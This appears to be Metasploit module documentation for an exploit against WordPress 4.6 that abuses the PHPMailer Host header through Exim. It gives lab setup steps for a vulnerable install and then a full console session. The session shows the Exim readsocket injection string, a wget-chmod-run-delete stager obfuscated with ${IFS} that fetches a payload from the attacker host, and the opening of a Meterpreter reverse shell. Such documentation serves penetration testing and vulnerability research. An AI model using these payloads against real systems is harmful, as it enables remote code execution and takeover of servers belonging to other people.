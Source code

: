 ## Introduction

This vuln has some caveats: you need approximately WordPress 4.6 with
Exim for the `sendmail(8)` command. You do not need to install
PHPMailer, as it is included as part of the WordPress install.

Thanks to WP's awesome practice of backporting the heck out of all their
patches, we need to use a Git clone and check out the vuln release.

## Setup

This was tested on Ubuntu 15.04. YMMV.

1. got root?
2. `cd /var/www/html`
3. `git clone https://github.com/WordPress/WordPress wordpress-4.6`
4. `chown -R www-data:www-data wordpress-4.6`
5. `cd wordpress-4.6`
6. `git checkout 4.6`
7. Set up a MySQL database for WordPress
8. Install as normal

## Options

**VERBOSE**

If you'd like to see what requests are being sent, set this to `true`.
You should see the Exim prestager commands being sent to the target.

## Usage

```
msf > use exploit/unix/webapp/wp_phpmailer_host_header 
msf exploit(wp_phpmailer_host_header) > set rhost 192.168.33.135
rhost => 192.168.33.135
msf exploit(wp_phpmailer_host_header) > set targeturi /wordpress-4.6
targeturi => /wordpress-4.6
msf exploit(wp_phpmailer_host_header) > set lhost 192.168.33.1 
lhost => 192.168.33.1
msf exploit(wp_phpmailer_host_header) > set verbose true
verbose => true
msf exploit(wp_phpmailer_host_header) > run

[*] Started HTTPS reverse handler on https://192.168.33.1:8443
[*] WordPress 4.6 installed at http://192.168.33.135/wordpress-4.6
[*] Generating wget command stager
[*] Using URL: http://0.0.0.0:8080/mbpvuuck
[*] Local IP: http://[redacted]:8080/mbpvuuck
[*] Generating and sending Exim prestager
[*] Sending /bin/sh -c ${run{/bin/echo}{${extract{-1}{$value}{${readsocket{inet:192.168.33.1:8080}{get /mbpvuuck http/1.0$value$value}}}}}}
[+] Sending wget${IFS}-qO${IFS}/tmp/vfotastd${IFS}http://192.168.33.1:8080/mbpvuuck;chmod${IFS}+x${IFS}/tmp/vfotastd;/tmp/vfotastd;rm${IFS}-f${IFS}/tmp/vfotastd
[+] Sending payload linux/x64/meterpreter_reverse_https
[*] https://192.168.33.1:8443 handling request from 192.168.33.135; (UUID: xyx88vod) Redirecting stageless connection from /nBwfbdUYNjU2TjBMb1VkagG08CfJO-jZYpOxBsWHQMGHh7p5ISjCG3Ze with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.33.1:8443 handling request from 192.168.33.135; (UUID: xyx88vod) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.33.1:8443 -> 192.168.33.135:36075) at 2017-05-16 14:25:28 -0500
[*] Sending /bin/rm -f /tmp/vfotastd
[*] Server stopped.

meterpreter >  
```
